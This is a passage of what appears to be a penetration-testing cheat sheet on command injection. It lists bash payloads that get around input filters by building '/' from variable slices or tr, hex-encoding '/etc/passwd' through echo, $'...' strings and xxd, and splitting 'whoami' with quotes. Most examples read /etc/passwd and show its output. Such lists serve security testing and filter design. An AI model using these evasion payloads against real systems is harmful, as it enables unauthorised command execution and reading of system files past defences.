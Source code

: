 ### Bypass Characters Filter

Commands execution without backslash and slash - linux bash

```powershell
swissky@crashlab:~$ echo ${HOME:0:1}
/

swissky@crashlab:~$ cat ${HOME:0:1}etc${HOME:0:1}passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ echo . | tr '!-0' '"-1'
/

swissky@crashlab:~$ tr '!-0' '"-1' <<< .
/

swissky@crashlab:~$ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
root:x:0:0:root:/root:/bin/bash
```

### Bypass Characters Filter Via Hex Encoding

```powershell
swissky@crashlab:~$ echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
/etc/passwd

swissky@crashlab:~$ cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -p <<< 2f6574632f706173737764
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -p <<< 2f6574632f706173737764`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -ps <(echo 2f6574632f706173737764)
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -ps <(echo 2f6574632f706173737764)`
root:x:0:0:root:/root:/bin/bash
```

### Bypass With Single Quote

```powershell
w'h'o'am'i
wh''oami
'w'hoami
```
